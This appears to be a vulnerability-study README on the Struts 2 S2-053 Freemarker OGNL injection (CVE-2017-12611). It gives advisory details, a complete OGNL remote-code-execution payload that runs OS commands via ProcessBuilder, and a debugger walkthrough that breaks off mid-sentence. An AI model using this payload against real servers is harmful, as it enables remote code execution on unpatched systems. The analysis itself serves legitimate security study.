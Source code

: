 # S2-053 Demo

## Summary

| Who should read this    | All Struts 2 developers and users                            |
| :---------------------- | ------------------------------------------------------------ |
| Impact of vulnerability | A RCE attack is possible when developer is using wrong construction in Freemarker tags |
| Maximum security rating | Moderate                                                     |
| Recommendation          | Upgrade to [Struts 2.5.12](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.5.12) or [Struts 2.3.34](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.3.34) |
| Affected Software       | Struts 2.0.0 - 2.3.33 Struts 2.5 - Struts 2.5.10.1           |
| Reporter                | Lupin <lupin1314 at gmail dot com> - [jd.com](http://jd.com/) security team David Greene <david at trumpetx dot com>Roland McIntosh <struts at rgm dot nu> |
| CVE Identifier          | CVE-2017-12611                                               |

## Problem

当在Freemarker中使用表达式文本或强制表达式时，可能会导致远程代码执行。

```xml
<@s.hidden name="redirectUri" value=redirectUri />
<@s.hidden name="redirectUri" value="${redirectUri}" />
<@s.hidden name="${redirectUri}"/>
```

## Environment

| Struts2 Version | Struts-2.3.24          |
| :-------------- | :--------------------- |
| Web Server      | Tomcat 8.5.53          |
| IDE             | IDEA 2020.1.1 ULTIMATE |

## POC

![image-20200814181552969](img/image-20200814114121260.png)

payload:

```xml
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}

```

## Debug

根据漏洞描述猜测，漏洞在Freemarker模板渲染的时候发生。而struts2渲染模板的流程是在所有interceptor执行完成后，通过executeResult进行的。所以在executeResult方法处下个断点开始跟踪：

`s2-053/web/WEB-INF/lib/xwork-core-2.3.24.jar!/com/opensymphony/xwork2/DefaultActionInvocation.class:300`

![1597546189396](img\1597546189396.png)

createResult通过获取配置文件struts.xml中的result信息创建Result。由于我们配置的是`<result name="success" type="freemarker">index.ftl</result>`，所以创建的Result类型为FreemarkerResult。跟入execute方法：

![1597548255233](img/1597549902268.png)

conditionalParse方法之前见到过多次（见s2-016分析）， 该函数用于处理跳转地址location，会判断location是否有`ognl`表达式，有的话将会执行表达式。但是跟了一遍没发现执行payload，说明struts2是没问题的，继续往下进入FreemarkerResult的doExecute方法：

```java
public void doExecute(String locationArg, ActionInvocation invocation) throws IOException, TemplateException {
        ...
        String absoluteLocation;
        if (this.location.startsWith("/")) {
            absoluteLocation = this.location;
        } else {
            String namespace = invocation.getProxy().getNamespace();
            if (namespace != null && namespace.length() != 0 && !namespace.equals("/")) {
                if (namespace.startsWith("/")) {
                    absoluteLocation = namespace + "/" + this.location;
                } else {
                    absoluteLocation = "/" + namespace + "/" + this.location;
                }
            } else {
                absoluteLocation = "/" + this.location;
            }
        }

        Template template = this.configuration.getTemplate(absoluteLocation, this.deduceLocale());
        TemplateModel model = this.createModel();
        if (this.preTemplateProcess(template, model)) {
            try {
                Writer writer = this.getWriter();
                if (!this.isWriteIfCompleted() && this.configuration.getTemplateExceptionHandler() != TemplateExceptionHandler.RETHROW_HANDLER) {
                    template.process(model, writer);
                } else {
                    ...
                }
            } finally {
                this.postTemplateProcess(template, model);
            }
        }

    }
```

首先计算绝对路径absoluteLocation，getTemplate方法获取模板中的Freemarker标签，传入template.process方法解析。一路跟入process()->visit()->accept():

![1597553748036](img/1597553748036.png)

遍历解析每一个Freemarker标签。直接循环至i=2解析payload的标签`<@s.hidden name="${message}"></@s.hidden>`。跟入env.visit() -> accept():

![1597555768958](img/1597555768958.png)

遍历Freemarker标签属性。这里注意到`${message}`在经过valueExp.eval()方法后被替换成payload，跟入eval方法至this.rootDataModel.get(name)方法，有点绕，具体流程可参考下图调用栈。

可以看到，Freemarker对`${message}`表达式进行了一次解析，并将解析后的值放入Map。

![1597583665740](img/1597583665740.png)

回到accept继续执行，进入visitAndTransform()。【省略一段繁琐的调试...】

最后发现了熟悉的translateVariables()方法，调用evaluate方法解析了payload中的ognl表达式。调用栈如下：

![1597588794722](E:\Project\CodeAuditLearning\struts2-vuln-demo\s2-053\img\1597587950056.png)





发现执行tc.afterBody()后弹出计算器（将payload中命令换为calc，方便知道哪里发生命令执行）。跟入afterBody()，

